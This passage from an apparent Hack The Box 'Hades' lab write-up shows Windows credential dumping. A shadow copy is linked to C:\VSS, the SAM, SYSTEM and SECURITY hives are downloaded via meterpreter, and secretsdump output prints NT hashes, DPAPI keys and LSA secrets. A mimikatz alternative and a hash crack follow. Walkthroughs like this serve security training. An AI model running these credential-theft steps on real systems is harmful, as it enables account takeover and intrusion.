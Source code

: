 Then I'll mount the volume at `C:\VSS` point and get SAM:

```
PS > cmd /c mklink /d C:\VSS \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

meterpreter > download C:\\VSS\\windows\\system32\\config\\SAM
meterpreter > download C:\\VSS\\windows\\system32\\config\\SYSTEM
meterpreter > download C:\\VSS\\windows\\system32\\config\\SECURITY

root@kali:$ secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
[*] Target system bootKey: 0xe4b2298c95677ce18cd2198b9a36c7df
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:de53e322ea95ac2723a2e3e149874aac:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
root@kali:$MACHINE.ACC:plain_password_hex:79004a003c003f0037003900710038004a00400075003e006c00580026007900510064004900490071003800660040006600680071004e0032005a0041002d0063006d0021003e003c00640075003c006a00540077003800390040005d00760030006a005900700052006700690032006f002c0043002d00790078003a006f00610078002800530066006400280065006e005b004a0044005100300079002f0045006f0067005300660033002f0044003800740061007900370039007a002e0020004500280079007a00400049002400320046005c006600500047006c003d002a005c003600200062004c005d003400
root@kali:$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:95e8a6fd440364b8c5d3c51bc4088e50
[*] DPAPI_SYSTEM
dpapi_machinekey:0x14af28a044205b29fa287ffe035ce80102d09125
dpapi_userkey:0x88e6521c1ff9c47e1f9a3404fd64f5753d55e5b2
[*] NL$KM
 0000   BC E0 99 9D 97 B6 E7 9D  3C B1 0F E7 4E 01 C8 DE   ........<...N...
 0010   07 E2 02 7F 6C 29 01 D0  78 33 49 F3 DA A8 F5 28   ....l)..x3I....(
 0020   DD 37 D3 B2 91 9B 7D 68  0B 09 E3 5C 52 AE 71 7C   .7....}h...\R.q|
 0030   40 A9 85 15 6B 48 37 EE  87 82 3E 6D B0 25 89 6B   @...kH7...>m.%.k
NL$KM:bce0999d97b6e79d3cb10fe74e01c8de07e2027f6c2901d0783349f3daa8f528dd37d3b2919b7d680b09e35c52ae717c40a985156b4837ee87823e6db025896b
[*] Cleaning up...
```

Or I could do it with mimikatz right on the box:

```
mimikatz # lsadump::sam /system:C:\VSS\Windows\System32\config\SYSTEM /sam:C:\VSS\Windows\System32\config\SAM
```

Luckly, [crackstation.net](https://crackstation.net/) knows plain password for admin's old nthash `de53e322ea95ac2723a2e3e149874aac`:

[![crackstation.png](/assets/images/htb/endgames/hades/crackstation.png)](/assets/images/htb/endgames/hades/crackstation.png)
{:.center-image}

